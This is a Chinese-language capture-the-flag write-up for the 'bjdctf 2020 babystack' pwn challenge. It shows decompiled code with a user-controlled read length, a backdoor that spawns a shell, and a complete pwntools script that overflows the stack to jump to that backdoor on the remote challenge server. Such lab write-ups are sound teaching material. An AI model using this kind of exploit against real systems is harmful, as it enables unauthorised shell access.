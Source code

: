 ```yaml
---
author: 
  name: Zephyr
title: bjdctf 2020 babystack
date: 2022-3-21 14:45:03
permalink: /pages/2e1547494524d185
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# bjdctf 2020 babystack

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/bjdctf_2020_babystack/bjdctf_2020_babystack'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-10h]
  size_t nbytes; // [rsp+Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  puts("[+]What's u name?");
  read(0, &buf, (unsigned int)nbytes);
  return 0;
}
```

后门函数如下

```c
__int64 backdoor()
{
  system("/bin/sh");
  return 1LL;
}
```



## 思路分析

1. 目前信息：
   - 明显的栈溢出漏洞
   - No PIE
   - 程序开启了NX保护
   - 存在后门函数
1. 思路：
   - 第一次输入的数据是第二次可读入数据的长度，可由此实现栈溢出，将返回地址覆盖为后门函数地址即可

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/bjdctf_2020_babystack/bjdctf_2020_babystack'
io = remote('node4.buuoj.cn', 26068)
# io = process(pwnfile)
elf = ELF(pwnfile)
backdoor_addr = elf.symbols['backdoor']
offset = 0x10+8
io.sendlineafter('your name:', str(offset+8))
payload = flat(['a'*offset, backdoor_addr])
io.sendlineafter('u name?', payload)
io.interactive()
```